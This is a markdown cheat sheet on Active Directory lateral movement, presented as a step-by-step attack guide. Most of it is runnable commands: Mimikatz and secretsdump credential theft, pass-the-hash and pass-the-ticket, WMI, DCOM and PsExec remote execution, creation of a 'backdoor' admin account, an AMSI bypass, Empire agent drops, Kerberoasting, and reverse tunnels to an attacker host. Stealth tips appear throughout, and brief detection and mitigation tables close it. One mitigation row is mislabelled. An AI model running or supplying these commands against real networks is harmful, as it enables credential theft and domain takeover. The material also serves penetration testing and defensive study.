


# Lateral Movement

> **Lateral movement is the process of an attacker navigating from their initial foothold to other systems within a network, progressively gaining access to higher-value targets.**

---

## 🧠 What Is It?

Picture a burglar who breaks into the mailroom of a skyscraper. The mailroom itself isn't valuable — but from there, they can access the elevator, move to the executive floor, find the key to the safe. Lateral movement is that progression: using your initial access point to reach the actual crown jewels.

This phase relies heavily on:
- **Stolen credentials** (plaintext, hashes, Kerberos tickets)
- **Abusing legitimate protocols** (SMB, WMI, WinRM, RDP)
- **Trust relationships** between systems and accounts

MITRE ATT&CK Tactic: **TA0008 — Lateral Movement**

---

## 🏗️ How It Works



---

## 📊 Diagram — Authentication Protocol Flow



---

## ⚙️ Technical Details

### NTLM Authentication — Why PtH Works

NTLM uses the password **hash** as the key for the challenge-response. The client never sends the plaintext password — it sends `HMAC-MD5(NT_hash, server_challenge)`. Therefore: **if you have the NT hash, you can authenticate without ever knowing the plaintext password**.

NT hash: `MD4(UTF-16-LE(password))`
- No salt, no iterations — computationally fast and replayable

**NTLM hash format:**
```
LM:NT
aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
(blank LM)          (NT hash)
```

### Kerberos — Why PtT Works

A **TGT** (Ticket Granting Ticket) is proof of identity, encrypted with the krbtgt account's hash. As long as the ticket is valid (default 10 hours, renewable for 7 days), you can request service tickets and authenticate — no password needed.

---

## 💥 Exploitation Step-by-Step

### Pass-the-Hash (PtH) — T1550.002

```bash
# === Obtain hash first ===

# Mimikatz (on Windows target — needs admin)
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
# Output:
# Authentication Id : 0 ; 1234567 (00000000:0012d687)
# Session           : Interactive from 1
# User Name         : jsmith
# Domain            : CORP
# NTLM              : e19ccf75ee54e06b06a5907af13cef42

# Impacket secretsdump (from Linux, needs admin share access)
python3 secretsdump.py CORP/administrator:Password1@192.168.1.10
# Output: CORP\jsmith:1001:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::

# === Pass-the-Hash Techniques ===

# CrackMapExec (SMB)
cme smb 192.168.1.0/24 -u administrator -H 'e19ccf75ee54e06b06a5907af13cef42' --local-auth
cme smb 192.168.1.10 -u administrator -H 'e19ccf75ee54e06b06a5907af13cef42' -x 'whoami'

# Impacket psexec.py (returns SYSTEM shell)
python3 psexec.py CORP/administrator@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

# Impacket wmiexec.py (no service installation — stealthier)
python3 wmiexec.py CORP/administrator@192.168.1.10 -hashes :e19ccf75ee54e06b06a5907af13cef42

# Impacket smbexec.py (no binary upload to target)
python3 smbexec.py CORP/administrator@192.168.1.10 -hashes :e19ccf75ee54e06b06a5907af13cef42

# pth-winexe (Linux — requires pth-tools package)
pth-winexe -U 'CORP/administrator%aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42' //192.168.1.10 cmd.exe

# Mimikatz PtH (Windows)
mimikatz # sekurlsa::pth /user:administrator /domain:CORP /ntlm:e19ccf75ee54e06b06a5907af13cef42 /run:cmd.exe
# Opens new cmd.exe window authenticated as administrator using hash
```

> **Gotcha**: PtH over SMB only works when the target has the account enabled AND UAC remote restrictions don't apply. For local admin PtH, often need `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy = 1` on target (rare in modern environments). **Domain admin** accounts are not restricted by this.

---

### Pass-the-Ticket (PtT) — T1550.003

```bash
# === Export Kerberos tickets ===

# Mimikatz — export all tickets from LSASS
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
# Creates .kirbi files in current directory

# Rubeus — list tickets
Rubeus.exe triage
Rubeus.exe dump /nowrap

# Rubeus — dump specific ticket
Rubeus.exe dump /luid:0x57d8f8 /nowrap

# === Import and use ticket ===

# Mimikatz — import .kirbi ticket
mimikatz # kerberos::ptt [0;57d8f8]-0-0-40810000-jsmith@krbtgt-CORP.LOCAL.kirbi

# Rubeus — import ticket
Rubeus.exe ptt /ticket:doIFHjCCBRqgAwIBBaEDAgEW...  # base64 ticket

# Verify ticket in session
klist  # Should show imported ticket

# Use — now access resources as the ticket owner without knowing password
dir \\dc01.corp.local\c$
# Or use psexec
psexec.exe \\dc01.corp.local cmd.exe

# Rubeus — complete dump + ptt in one step
Rubeus.exe dump /service:krbtgt /nowrap | Rubeus.exe ptt /ticket:<output>
```

---

### Overpass-the-Hash (Pass-the-Key) — T1550.003

Converts an NTLM hash to a Kerberos TGT, allowing Kerberos authentication with just the NTLM hash.

```bash
# Mimikatz
mimikatz # sekurlsa::pth /user:jsmith /domain:CORP.LOCAL /ntlm:e19ccf75ee54e06b06a5907af13cef42
# Opens cmd.exe — first time you access a resource, a TGT is requested using the hash

# Rubeus (converts hash to Kerberos ticket directly)
Rubeus.exe asktgt /user:jsmith /domain:corp.local /rc4:e19ccf75ee54e06b06a5907af13cef42 /ptt

# With AES256 key (better OPSEC — less detectable than RC4)
Rubeus.exe asktgt /user:jsmith /domain:corp.local /aes256:a561a175bc63958a07b0df3c6a76ee1ba7543cf2c9b79e6e7e4c5c7f63c5a82 /ptt
```

---

### WMI Lateral Movement — T1047

```bash
# Windows command line WMIC
wmic /node:192.168.1.20 /user:CORP\administrator /password:Password1 \
  process call create "powershell -enc <base64_payload>"

# PowerShell Invoke-WmiMethod
Invoke-WmiMethod -Computer 192.168.1.20 -Class Win32_Process -Name Create \
  -ArgumentList "powershell -enc <base64_payload>" \
  -Credential (Get-Credential)

# Impacket wmiexec (from Linux — stealthy, no service creation)
python3 wmiexec.py CORP/jsmith:Password1@192.168.1.20 "ipconfig"

# With hash
python3 wmiexec.py CORP/administrator@192.168.1.20 \
  -hashes :e19ccf75ee54e06b06a5907af13cef42 \
  "cmd /c net user backdoor P@ssw0rd /add && net localgroup administrators backdoor /add"
```

**Why WMI is stealthy**: No new service is created, no binary is dropped to disk in basic execution. Runs command via existing WMI service.

---

### DCOM Lateral Movement — T1021.003

DCOM (Distributed COM) objects can execute code on remote systems. Many built-in objects exist.

```powershell
# MMC20.Application — classic DCOM lateral movement
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.20"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c powershell -enc <base64>","7")

# ShellWindows
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Shell.Application","192.168.1.20"))
$com.Windows() | ForEach-Object { $_.Document.Application.ShellExecute("cmd.exe","/c <command>","C:\Windows\System32",$null,0) }

# ShellBrowserWindow
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("ShellBrowserWindow","192.168.1.20"))
$com.Document.Application.ShellExecute("cmd.exe","/c <command>","C:\Windows\System32",$null,0)

# Invoke-DCOM (PowerShell script)
Import-Module .\Invoke-DCOM.ps1
Invoke-DCOM -ComputerName 192.168.1.20 -Method MMC20.Application -Command "cmd /c <payload>"
```

---

### PsExec — T1021.002

PsExec works by: 1) copying a service binary to ADMIN$, 2) creating a service via SCM, 3) running command through service, 4) deleting service.

```bash
# Sysinternals PsExec (from Windows)
psexec.exe \\192.168.1.20 -u CORP\administrator -p Password1 cmd.exe

# With hash (requires modified version or use impacket)
psexec.exe \\192.168.1.20 -accepteula cmd.exe  # After Mimikatz sekurlsa::pth

# Impacket psexec.py (from Linux)
python3 psexec.py CORP/administrator:Password1@192.168.1.20
python3 psexec.py CORP/administrator@192.168.1.20 -hashes :e19ccf75ee54e06b06a5907af13cef42

# CrackMapExec psexec
cme smb 192.168.1.20 -u administrator -p Password1 -x 'whoami' --exec-method smbexec
```

**Detection note**: PsExec creates a service `PSEXESVC` and writes binary to ADMIN$. Highly detectable. Prefer `wmiexec` or `smbexec` for stealth.

---

### WinRM — T1021.006

Windows Remote Management (port 5985 HTTP, 5986 HTTPS).

```bash
# evil-winrm (primary tool)
evil-winrm -i 192.168.1.20 -u administrator -p Password1

# With hash
evil-winrm -i 192.168.1.20 -u administrator -H e19ccf75ee54e06b06a5907af13cef42

# With SSL
evil-winrm -i 192.168.1.20 -u administrator -p Password1 -S -c cert.pem -k key.pem

# Upload/download files via evil-winrm
*Evil-WinRM* PS> upload /local/SharpHound.exe C:\Windows\Temp\SharpHound.exe
*Evil-WinRM* PS> download C:\Windows\Temp\output.zip /local/output.zip

# Load PowerShell modules
*Evil-WinRM* PS> menu
*Evil-WinRM* PS> Bypass-4MSI    # AMSI bypass
*Evil-WinRM* PS> Invoke-Binary /path/to/compiled.exe

# PowerShell remoting (from Windows)
Enter-PSSession -ComputerName 192.168.1.20 -Credential (Get-Credential)

# Or with credential object
$cred = New-Object System.Management.Automation.PSCredential("CORP\administrator", (ConvertTo-SecureString "Password1" -AsPlainText -Force))
Invoke-Command -ComputerName 192.168.1.20 -Credential $cred -ScriptBlock { whoami }
```

---

### RDP — T1021.001

```bash
# Linux → Windows RDP
xfreerdp /u:administrator /p:Password1 /v:192.168.1.20
xfreerdp /u:CORP\\administrator /p:Password1 /v:192.168.1.20 /d:CORP

# Pass-the-Hash with RDP (Restricted Admin Mode)
# Target must have Restricted Admin Mode enabled:
# HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin = 0
xfreerdp /u:administrator /pth:e19ccf75ee54e06b06a5907af13cef42 /v:192.168.1.20

# Enable Restricted Admin on target (if you have code exec)
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f

# rdesktop (older client)
rdesktop -u administrator -p Password1 192.168.1.20

# Impacket rdp_check.py (verify creds work for RDP)
python3 rdp_check.py CORP/administrator:Password1@192.168.1.20
```

---

### Token Impersonation — T1134

Steal tokens from higher-privileged processes.

```bash
# Meterpreter incognito module
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "CORP\\SYSTEM"
meterpreter > impersonate_token "CORP\\domain_admin"

# PowerShell (from elevated session)
# List tokens available
whoami /groups

# Invoke-TokenManipulation (PowerSploit)
Import-Module Invoke-TokenManipulation.ps1
Invoke-TokenManipulation -ImpersonateUser -Username "CORP\domain_admin"
Invoke-TokenManipulation -CreateProcess -Username "CORP\domain_admin" -Process "cmd.exe"

# Cobalt Strike
beacon> steal_token 4200    # Steal token from PID 4200
beacon> getuid              # Verify new identity
beacon> rev2self            # Revert to original token

# Rubeus — S4U (Service for User) — Request service ticket as another user
Rubeus.exe s4u /user:serviceacct /rc4:hash /impersonateuser:administrator /msdsspn:cifs/server.corp.local /ptt
```

---

### CrackMapExec — Full Lateral Movement Guide

```bash
# === ENUMERATION ===

# SMB host discovery and OS fingerprinting
cme smb 192.168.1.0/24

# Test credentials (domain)
cme smb 192.168.1.0/24 -u jsmith -p Password1 -d CORP

# Test credentials (local admin)
cme smb 192.168.1.0/24 -u administrator -p Password1 --local-auth

# Hash authentication
cme smb 192.168.1.0/24 -u administrator -H :e19ccf75ee54e06b06a5907af13cef42 --local-auth

# === CREDENTIAL DUMPING ===

# SAM dump (local accounts)
cme smb 192.168.1.10 -u administrator -p Password1 --sam

# LSA secrets dump
cme smb 192.168.1.10 -u administrator -p Password1 --lsa

# NTDS.dit (Domain Controller only)
cme smb dc01.corp.local -u administrator -p Password1 --ntds

# Dump with hash
cme smb 192.168.1.10 -u administrator -H :e19ccf75ee54e06b06a5907af13cef42 --sam --lsa

# === CODE EXECUTION ===

# Execute command
cme smb 192.168.1.10 -u administrator -p Password1 -x 'net user'

# Execute PowerShell
cme smb 192.168.1.10 -u administrator -p Password1 -X 'Get-Process'

# Execute with different method
cme smb 192.168.1.10 -u admin -p pass --exec-method smbexec -x 'whoami'
cme smb 192.168.1.10 -u admin -p pass --exec-method wmiexec -x 'whoami'
cme smb 192.168.1.10 -u admin -p pass --exec-method mmcexec -x 'whoami'

# === MODULE EXECUTION ===

# Mimikatz
cme smb 192.168.1.10 -u administrator -p Password1 -M mimikatz

# Empire agent drop
cme smb 192.168.1.10 -u administrator -p Password1 -M empire_exec -o LISTENER=http

# Kerberoasting
cme ldap dc01.corp.local -u jsmith -p Password1 --kerberoasting output.txt

# === SHARE ENUMERATION ===

cme smb 192.168.1.10 -u jsmith -p Password1 --shares
cme smb 192.168.1.10 -u jsmith -p Password1 --spider C$ --pattern ".txt,.doc,.xls,.pdf"

# === WINRM ===
cme winrm 192.168.1.10 -u jsmith -p Password1 -x 'whoami'

# === MSSQL ===
cme mssql 192.168.1.10 -u sa -p Password1 -q "SELECT @@version"
cme mssql 192.168.1.10 -u sa -p Password1 -M mssql_exec -o CMD='whoami'
```

---

### BloodHound for Lateral Movement Paths

```bash
# === COLLECTION ===

# SharpHound (Windows — run from compromised host)
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip

# bloodhound-python (from Linux, needs domain credentials)
bloodhound-python -u jsmith -p Password1 -d corp.local -ns 192.168.1.10 -c All
# Creates JSON files, zip and import to BloodHound

# === ANALYSIS IN BLOODHOUND ===

# Start BloodHound (after neo4j is running)
neo4j start
bloodhound &

# Key queries for lateral movement:
# "Find Shortest Paths to Domain Admins"
# "Find Principals with DCSync Rights"
# "Find Computers where Domain Users are Local Admin"
# "Shortest Paths from Owned Principals"

# Custom Cypher queries (in BloodHound raw query box):

# All paths from jsmith to Domain Admin
MATCH p=shortestPath((u:User {name:"JSMITH@CORP.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p

# Computers where user has local admin
MATCH (u:User {name:"JSMITH@CORP.LOCAL"})-[:AdminTo]->(c:Computer) RETURN c.name

# Kerberoastable accounts with paths to DA
MATCH (u:User {hasspn:true}),(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}),
p=shortestPath((u)-[*1..]->(g)) RETURN p

# Find unconstrained delegation computers
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name

# AS-REP roastable users
MATCH (u:User {dontreqpreauth:true}) RETURN u.name
```

---

### Pivoting — Moving Through Network Segments

When your beacon is on a host in one network segment but your target is in another (no direct internet access), you need to **pivot** through the compromised host.

#### SSH Tunneling

```bash
# Local port forward: access target_host:80 via localhost:8080
# -L [bind_address:]port:host:hostport
ssh -L 8080:192.168.2.10:80 user@pivot_host
# Now: curl http://localhost:8080 → reaches 192.168.2.10:80

# Remote port forward: expose your local service on remote server
# -R [bind_address:]port:host:hostport
ssh -R 4444:localhost:4444 user@pivot_host
# pivot_host:4444 → your_machine:4444

# Dynamic SOCKS proxy: full proxy through pivot
# -D [bind_address:]port
ssh -D 1080 -N -f user@pivot_host
# Now all traffic via SOCKS5 127.0.0.1:1080 routes through pivot_host

# Chain with proxychains
cat /etc/proxychains4.conf | tail -5
# socks5 127.0.0.1 1080

proxychains nmap -sT -p 22,80,443,445,3389 192.168.2.0/24
proxychains python3 wmiexec.py CORP/admin:pass@192.168.2.10
```

---

#### Chisel — TCP Tunneling over HTTP/HTTPS

```bash
# === SERVER (on attacker machine) ===
./chisel server --port 8080 --reverse

# === CLIENT (on compromised host) ===
# Reverse SOCKS proxy (most common)
.\chisel.exe client 203.0.113.50:8080 R:socks
# Creates SOCKS5 proxy on attacker:1080

# Specific port forward
.\chisel.exe client 203.0.113.50:8080 R:3389:192.168.2.10:3389
# attacker:3389 → 192.168.2.10:3389

# Multi-hop (from second pivot through first)
.\chisel.exe client 192.168.1.50:8080 R:1081:socks
# Use proxychains with port 1081 to reach networks beyond second pivot
```

---

#### Ligolo-ng — Professional Pivoting

Ligolo-ng creates a TUN interface, making remote networks directly accessible without proxychains.

```bash
# === ATTACKER SETUP ===

# Start ligolo proxy server
./proxy -selfcert -laddr 0.0.0.0:11601

# In ligolo console — wait for agent
ligolo-ng » 

# === TARGET SETUP (compromised host) ===
# Upload agent binary, then:
.\agent.exe -connect 203.0.113.50:11601 -ignore-cert

# === BACK ON ATTACKER ===
# See incoming connection in ligolo console
ligolo-ng » session
# [Agent : CORP\jsmith@CORP-PC1] » 

# Start tunnel
ligolo-ng » start

# Set up routing (run as root on attacker)
sudo ip route add 192.168.2.0/24 dev ligolo

# Now communicate directly!
nmap -sV 192.168.2.0/24         # No proxychains needed!
python3 wmiexec.py admin:pass@192.168.2.10  # Direct connection
evil-winrm -i 192.168.2.10 -u admin -p pass

# Port forward to expose port on agent host
ligolo-ng » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
# Target connects to attacker:1234 → agent:1234 (for reverse shells into deeper network)
```

---

#### Proxychains Configuration

```bash
# /etc/proxychains4.conf
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 1080    # Single proxy

# Chain through multiple proxies (for multi-hop)
# strict_chain — every proxy must work
# dynamic_chain — skip dead proxies
socks5 127.0.0.1 1080    # First hop (Chisel/SSH dynamic)
socks5 127.0.0.1 1081    # Second hop

# Usage
proxychains4 -q nmap -sT -p 445 192.168.2.0/24
proxychains4 -q python3 secretsdump.py admin:pass@192.168.2.10
proxychains4 -q evil-winrm -i 192.168.2.20 -u admin -p pass
```

---

### Kerberoasting — T1558.003

Request service tickets for accounts with SPNs, crack them offline.

```bash
# Impacket (from Linux)
python3 GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 192.168.1.10 -request
# Output: $krb5tgs$23$*sqlsvc$CORP.LOCAL$...

# Rubeus (from Windows)
Rubeus.exe kerberoast /outfile:hashes.txt /nowrap
Rubeus.exe kerberoast /user:sqlsvc /domain:corp.local /nowrap

# CrackMapExec
cme ldap dc01.corp.local -u jsmith -p Password1 --kerberoasting kerberoast.txt

# Crack with hashcat
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule
```

---

### AS-REP Roasting — T1558.004

For accounts with "Do not require Kerberos preauthentication" set — get encrypted data without credentials.

```bash
# Impacket (from Linux, no credentials needed for target accounts)
python3 GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 192.168.1.10 -no-pass -request
# With credentials (get all vulnerable accounts)
python3 GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 192.168.1.10 -request

# Rubeus (from Windows)
Rubeus.exe asreproast /outfile:asrep_hashes.txt /nowrap
Rubeus.exe asreproast /user:vulnerable_user /nowrap

# Crack
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## 🛠️ Tools

| Tool | Category | Key Commands |
|---|---|---|
| **Mimikatz** | Credential extraction | `sekurlsa::logonpasswords`, `sekurlsa::pth` |
| **Rubeus** | Kerberos abuse | `dump`, `ptt`, `kerberoast`, `asktgt` |
| **CrackMapExec** | SMB/WinRM/LDAP lateral | `cme smb <ip> -u user -H hash -x cmd` |
| **Impacket** | Windows protocol suite | `psexec.py`, `wmiexec.py`, `secretsdump.py` |
| **evil-winrm** | WinRM shell | `evil-winrm -i <ip> -u user -H hash` |
| **BloodHound** | AD attack path | Import JSON, query Cypher |
| **SharpHound** | BloodHound collector | `SharpHound.exe -c All` |
| **Chisel** | TCP tunneling | `server --port 8080 --reverse` |
| **Ligolo-ng** | Network pivoting | `proxy -selfcert`, `agent -connect` |
| **xfreerdp** | RDP client | `xfreerdp /u:admin /pth:hash /v:ip` |
| **Responder** | LLMNR/NBT-NS poisoning | `python3 Responder.py -I eth0 -rdwv` |
| **Hashcat** | Hash cracking | `hashcat -m 13100 hashes.txt rockyou.txt` |

---

## 🔍 Detection

| Technique | Detection Signal | Log Source |
|---|---|---|
| **Pass-the-Hash** | Logon Type 3, NTLM auth, unusual source IP | Windows Security 4624 |
| **Pass-the-Ticket** | Unusual TGS requests, Kerberos from unexpected hosts | Windows Security 4769 |
| **Kerberoasting** | High volume TGS-REQ for SPN accounts | Windows Security 4769 (RC4 encryption type 0x17) |
| **WMI lateral** | WmiPrvSe.exe spawning processes | Sysmon 1, WMI logs |
| **PsExec** | PSEXESVC service creation, binary in ADMIN$ | Security 7045, Sysmon 11 |
| **evil-winrm / WinRM** | wsmprovhost.exe spawning commands | WinRM logs, Sysmon |
| **DCOM** | mmc.exe / dllhost.exe spawning child processes | Sysmon 1 |
| **BloodHound collection** | Mass LDAP queries to DC | Domain Controller LDAP logging |
| **Token impersonation** | Process creation under impersonated token | Sysmon 1, 4624 (logon type 9) |

---

## 🛡️ Mitigation

| Control | Description | Addresses |
|---|---|---|
| **Tiered admin model** | Separate T0/T1/T2 admin accounts | All credential-based movement |
| **Credential Guard** | VSB-protected LSASS — prevents hash extraction | PtH, PtT, Mimikatz |
| **LAPS** | Unique local admin passwords per machine | Local admin PtH |
| **Disable NTLM** (or restrict) | Force Kerberos authentication only | PtH |
| **Protected Users group** | Prevents NTLM, DES, RC4 Kerberos for members | PtH, some PtT |
| **Disable SMBv1** | Remove legacy protocol | PsExec, SMB attacks |
| **Windows Firewall** | Block SMB/WMI/WinRM between workstations | Peer-to-peer lateral movement |
| **Network segmentation** | VLAN isolation for workstations vs servers | All network-based movement |
| **Disable Restricted Admin Mode** | Prevents RDP PtH | RDP PtH |
| **ATA / Defender for Identity** | Detects PtH, PtT, Kerberoasting alerts | Credential-based attacks |
| **Kerberoasting mitigation** | Managed service accounts (MSA) with 120-char passwords | Kerberoasting |
| **Disable preauthentication** | Enable preauth for all accounts | AS-REP roasting |

---

## 📚 References

- MITRE ATT&CK Lateral Movement: https://attack.mitre.org/tactics/TA0008/
- Impacket: https://github.com/fortra/impacket
- Mimikatz: https://github.com/gentilkiwi/mimikatz
- Rubeus: https://github.com/GhostPack/Rubeus
- CrackMapExec: https://github.com/byt3bl33d3r/CrackMapExec
- BloodHound: https://github.com/BloodHoundAD/BloodHound
- evil-winrm: https://github.com/Hackplayers/evil-winrm
- Ligolo-ng: https://github.com/nicocha30/ligolo-ng
- Chisel: https://github.com/jpillora/chisel
- The Hacker Recipes (lateral movement): https://www.thehacker.recipes
- harmj0y blog (Kerberos): http://www.harmj0y.net/blog/redteaming/
- S4vitar - Lateral Movement Cheatsheet
